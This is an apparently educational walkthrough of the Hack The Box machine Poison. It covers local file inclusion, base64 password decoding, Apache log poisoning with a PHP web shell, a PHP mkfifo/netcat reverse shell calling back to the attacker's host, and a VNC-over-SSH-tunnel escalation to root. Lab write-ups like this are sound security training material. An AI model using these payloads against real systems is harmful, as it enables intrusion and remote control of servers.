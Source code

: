 # Exercise: Exploiting VNC for initial access in Hack The Box machine Poison

An nmap scan shows that this machine is running FreeBSD and has port 22 \(SSH\) and port 80 \(HTTP\) open.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Poison]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- poison.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
<SNIP>
80/tcp open http Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Navigating to the website, there is a home page suggesting that various PHP files can be tested \(Figure 4-6\).

![Home page of Poison machine](../.gitbook/assets/4%20%282%29%20%281%29.png)

Inputting one of the filenames listed results in the contents of that file being listed. If we enter listfiles.php, the output is:

```text
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => 
info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => 
pwdbackup.txt )
```

The PHP code is creating an array of filenames. The interesting one is pwdbackup.txt which if we access has the contents:

```bash
This password is secure, it's encoded atleast 13 times.. 
what could go wrong really..
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS…
<SNIP>
```

The encoding format looks like Base64 and so if we simply put the string in a file and decode it13 times we get a password:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $cat password.txt | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d| base64 -d| base64 -d
Charix!2#4%6&8(0
```

Going back to the home page, the input to the text box is simply being passed as a parameter called "file" to be displayed:

`http://poison.htb/browse.php?file=listfiles.php`

This looks like a candidate for local file inclusion \(LFI\) by tampering with the file parameter. If we try the URL

`http://poison.htb/browse.php?file=/etc/passwd`

We get the contents of the passwd file returned.

```bash
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
<SNIP>
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

We can see from the passwd file that there is a user "charix" and using the password we discovered earlier with this, we can SSH into the machine.

This was not the only way that you can gain initial access to the box however. Another way of gaining access is to use a technique called "log poisoning" which involves putting PHP code into the Apache log file that records requests to the site. This log records the URL requested, the protocol, the status code and also the user agent which is the details of the browser client used to make the request. If we put executable PHP into the User Agent header filed in the request and make a request, the next time we use LFI on the log, that code will be executed. The code we can add to the User Agent field is:

```php
<?php system($_GET['c']); ?>
```

This code takes the value in the query parameter 'c' and executes it using the 'system' command. To add the code to the User Agent field, we can use Burp to intercept the request and then change the value in the Repeater tab before sending it to the server:

```markup
GET /browse.php?file=/etc/passwd HTTP/1.1
Host: poison.htb
User-Agent: <?php system($_GET['c']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

We can test this now by sending a new request to view the log file and pass a command via the parameter 'c':

`GET /browse.php?file=/var/log/httpd-access.log&c=id HTTP/1.1`

This will return the contents of the log file and the final line will be:

```bash
10.10.14.135 - - [] "GET /browse.php?file=/etc/passwd HTTP/1.1" 200 1894 "-" "uid=80(www) gid=80(www) groups=80(www)"
```

It took the 'id' command and executed it to return the details of the user 'www'.

We can now execute a reverse shell. Start a Netcat listener on your machine:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
```

We can now poison the log with PHP reverse shell code:

```php
<?php 
  exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.135 6001 >/tmp/f') 
?>
```

When we make the GET request to view the log, we will get a reverse shell:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.105.0] 35870
sh: can't access tty; job control turned off
$ whoami
www
```

The shell isn't great and Python is not on the box to use to upgrade it. If you had got access this way, it would have ben to explore the box to find the pwdbackup.txt file and from there the password for the charix user to enable the use of SSH.

Once SSH'd onto the machine, you discover a file secret.zip which you can copy back to your local host using the scp command:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $scp charix@poison.htb:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip 100% 166 0.5KB/s 00:00
```

The file can be unzipped using charix's password to reveal the secret file which has binary data in it but otherwise it is not clear what it is for.

Back to enumeration. Looking at the processes running, you will notice a process Xvnc:

```bash
charix@Poison:~ % ps -aux
USER PID %CPU %MEM VSZ RSS TT STAT STARTED TIME COMMAND
root 11 100.0 0.0 0 16 - RL 14:00 30:53.63 [idle]
root 0 0.0 0.0 0 160 - DLs 14:00 0:00.01 [kernel]
root 1 0.0 0.1 5408 976 - ILs 14:00 0:00.01 /sbin/init --
root 2 0.0 0.0 0 16 - DL 14:00 0:00.00 [crypto]
<SNIP>
root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tight
root 625 0.0 0.7 67220 7048 v0- I 14:00 0:00.03 xterm -geometry 80x24+10+10 -ls -title X Desktop
root 626 0.0 0.5 37620 5312 v0- I 14:00 0:00.01 twm
```

To get more information, we can display the process information in more detail:

```bash
charix@Poison~ % ps -auxww | grep vnc
root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

From this, we know that TightVNC is running as user root and this is listening on port 5901 on localhost. To access the VNC server, you first set up a tunnel using:

```bash
charix@Poison:~ %
ssh> -D 1080
Forwarding port.
```

On our local box, you can confirm that you can access this port by using:

```bash
┌─[rin@parrot]─[~/boxes/Poison]
└──╼ $proxychains curl --http0.9 http://127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
RFB 003.008
```

Note that you used proxychains here to access the VNC server. You could have used the --socks5 argument to curl as well.

We can then run vncviewer using proxychains. This asks for a password and so trying the "secret" file that you got from unzipping "secret.zip" from charix's home directory:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Poison]
└──╼ $proxychains vncviewer -passwd secret 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```

Which launches a VNC session as root \(Figure 3-7\)

![VNC session as root on Poison](../.gitbook/assets/5%20%285%29.png)

VNC's encryption of passwords is more obfuscation than encryption as the key that is used for the DES encryption is well known. It is trivial to find an application that will decrypt the password in the file "secret" and it turns out to be "VNCP@$$!".

